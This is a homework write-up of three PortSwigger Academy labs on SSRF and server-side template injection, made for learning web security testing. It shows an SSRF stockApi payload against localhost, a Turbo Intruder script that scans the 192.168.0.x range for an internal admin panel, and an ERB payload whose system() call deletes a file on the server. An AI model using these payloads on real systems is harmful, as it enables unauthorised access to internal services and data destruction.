 # Homework 10. Server-side attacks. Part 3

## SSRF

### Task 1. Basic SSRF against the local server

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

The target web application requests third-party stocks to get product number.  
The stock url is passed as request parameter, so it  can be changed to:

```bash
http://localhost/admin
```

![lab1-request-1](lab1-request-1.png)

The server responded with admin page:

![lab1-response-1](lab1-resposne-1.png)

From the page source take `Delete` button url:

![lab1-path](lab1-path.png)

And execute `stock` request again with this path:

![lab1-request-2](lab1-request-2.png)

The lab is solved 🎉

![lab1-solved](lab1-solved.png)

### Task 2. Basic SSRF against another back-end system

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

This time the admin panel located on another server within private network `192.168.0.X`.

First of all we have to find the server ip address.
It could by last ip octet enumeration from 1 to 255.  
I've used `Turbo Intruder` Burp extension for that with configuration:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1000,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
                           
    for i in range(1, 256):
         engine.queue(target.req, i)

def handleResponse(req, interesting):
    table.add(req)
```

and request:

```http
POST /product/stock HTTP/2
Host: 0a52007003236dcd8961fefc00930069.web-security-academy.net
Cookie: session=UytULELImCJe72T6XyQ7ZxPlAqvVzFkS
Content-Length: 96
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a52007003236dcd8961fefc00930069.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52007003236dcd8961fefc00930069.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 234.35.45.2
Priority: u=1, i

stockApi=http://192.168.0.%s:8080/admin
```

The server is located on `192.168.0.144`

![lab2-response-1](lab2-response-1.png)

Take `Delete` button path from page source:

![lab2-path](lab2-path.png)

And execute `stock` request with with path as `stockApi`:

![lab2-request-2](lab2-request-2.png)

The lab is solved 🎉

![lab2-solved](lab2-solved.png)

## SSTI

### Task 3. Basic server-side template injection

The [lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

The attempt of getting first products details is failed because `Unfortunately this product is out of stock`. But the rendered message is present in query parameters.
Probably, everything passed by this parameter will be rendered by template engine.  

![lab3-page-1](lab3-page-1.png)

The app uses ERB as template engine (given from task)

The payload `<%25+system("rm+/home/carlos/morale.txt")+%25>` as `message` query param solves the lab 🎉

![lab3-solved](lab3-solved.png)
